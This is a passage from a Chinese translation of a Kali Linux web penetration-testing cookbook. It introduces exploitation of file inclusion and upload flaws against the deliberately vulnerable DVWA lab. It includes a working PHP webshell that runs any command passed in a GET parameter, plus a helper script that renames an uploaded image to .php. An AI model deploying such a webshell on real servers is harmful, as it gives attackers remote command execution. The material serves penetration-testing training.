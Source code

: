 # Kali Linux Web 渗透测试秘籍（二）

> 译者：[飞龙](https://github.com/wizardforcel)

# 第六章：利用 -- 低悬的果实

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

这章开始我们会开始涉及渗透测试的的利用层面。和漏洞评估的主要不同是，漏洞评估中测试者识别漏洞（多数时间使用自动化扫描器）和提出如何减轻它们的建议。而渗透测试中测试者作为恶意攻击者并尝试利用检测到的漏洞，并得到最后的结果：整个系统的沦陷，内部网络访问，敏感数据泄露，以及其它。同时，要当心不要影响系统的可用性或者为真正的攻击者留下后门。

之前的章节中，我们已经涉及了如何检测 Web 应用中的一些漏洞。这一章中我们打算了解如何利用这些漏洞并使用它们来提取信息和获得应用及系统受限部分的访问权。

## 6.1 恶意使用文件包含和上传

我们在第四章中看到，文件包含漏洞在开发者对生成文件路径的输入校验不当，并使用该路径来包含源代码文件时出现。服务端语言的现代版本，例如 PHP 自 5.2.0 起，将一些特性默认关闭，例如远程文件包含，所以 2011 年起就不大可能找到 RFI 了。

这个秘籍中，我们会上传一些恶意文件，其中之一是 Webshell（可用于在服务器中执行命令的页面），之后使用本地文件包含来执行它。

### 准备

这个秘籍中，我们会使用  vulnerable_vm  中的 DVWA ，并以中等安全级别配置，所以让我们将其配置起来。

1.  访问` http://192.168.56.102/dvwa`。

2.  登录。

3.  将安全级别设置为中。访问`DVWA Security`，在组合框中选择`medium`并点击`Submit`。

我们会上传一些文件给服务器，但是你需要记住它们储存在哪里，以便之后调用。所以，在 DVWA 中访问`Upload`并上传任何 JPG 图像。如果成功了，他会告诉你文件上传到了`../../hackable/uploads/`。现在我们知道了用于储存上传文件的相对路径。这对于秘籍就足够了。

我们也需要准备好我们的文件，所以让我们创建带有一下内容的文本文件：

```php
<? 
system($_GET['cmd']); 
echo '<form method="post" action="../../hackable/uploads/webshell. php"><input type="text" name="cmd"/></form>'; 
?>
```

将其保存为`webshell.php`。我们需要另一个文件，创建`rename.php`并输入下列代码：

```php
<? 
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/ webshell.php'); 
?>
```
